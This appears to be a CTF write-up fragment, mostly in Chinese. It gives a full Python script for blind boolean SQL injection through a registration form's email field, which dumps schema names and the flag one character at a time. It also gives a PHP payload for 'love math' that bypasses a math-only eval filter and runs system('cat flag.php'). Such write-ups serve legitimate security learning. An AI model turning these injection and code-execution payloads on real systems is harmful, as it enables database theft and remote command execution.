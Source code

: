2.所以payload结合注入，拼接后的sql语句为`select id from user where email = 'test'/**/or/**/1=1#@test.com'`

这里用到了group_concat([DISTINCT] 要连接的字段 [Order BY ASC/DESC 排序字段] [Separator '分隔符'])

```
import requests
from bs4 import BeautifulSoup

url = "http://124.126.19.106:53939/register"

r = requests.get(url)
soup = BeautifulSoup(r.text,"html5lib")
token = soup.find_all(id='csrf_token')[0].get("value")

notice = "Please use a different email address."
result = ""

# SEPARATOR/**/0x3c62723e，表示以<br>分割
database = "(SELECT/**/GROUP_CONCAT(schema_name/**/SEPARATOR/**/0x3c62723e)/**/FROM/**/INFORMATION_SCHEMA.SCHEMATA)"
tables = "(SELECT/**/GROUP_CONCAT(table_name/**/SEPARATOR/**/0x3c62723e)/**/FROM/**/INFORMATION_SCHEMA.TABLES/**/WHERE/**/TABLE_SCHEMA=DATABASE())"
columns = "(SELECT/**/GROUP_CONCAT(column_name/**/SEPARATOR/**/0x3c62723e)/**/FROM/**/INFORMATION_SCHEMA.COLUMNS/**/WHERE/**/TABLE_NAME=0x666c616161616167)"
data = "(SELECT/**/GROUP_CONCAT(flag/**/SEPARATOR/**/0x3c62723e)/**/FROM/**/flag)"


for i in range(1,100):
    for j in range(32,127):
        payload = "ycc'/**/or/**/ascii(substr("+  data +",%d,1))=%d#/**/@qq.com" % (i,j)
        post_data = {
            'csrf_token': token,
            'username': 'a',
            'email':payload,
            'password':'a',
            'password2':'a',
            'submit':'Register'
        }
        r = requests.post(url,data=post_data)
        soup = BeautifulSoup(r.text,"html5lib")
        token = soup.find_all(id='csrf_token')[0].get("value")
        if notice in r.text:
            result += chr(j)
            print(result)
            break
```

## love math(攻防世界)

payload: $pi=base_convert(37907361743,10,36)(dechex(1598506324));($$pi){pi}(($$pi){abs})&pi=system&abs=cat flag.php

分析:36进制，可以带所有小写字母
```
base_convert(37907361743,10,36) => "hex2bin"
dechex(1598506324) => "5f474554"
$pi=hex2bin("5f474554") => $pi="_GET"   //hex2bin将一串16进制数转换为二进制字符串
($$pi){pi}(($$pi){abs}) => ($_GET){pi}($_GET){abs}  //{}可以代替[]
```
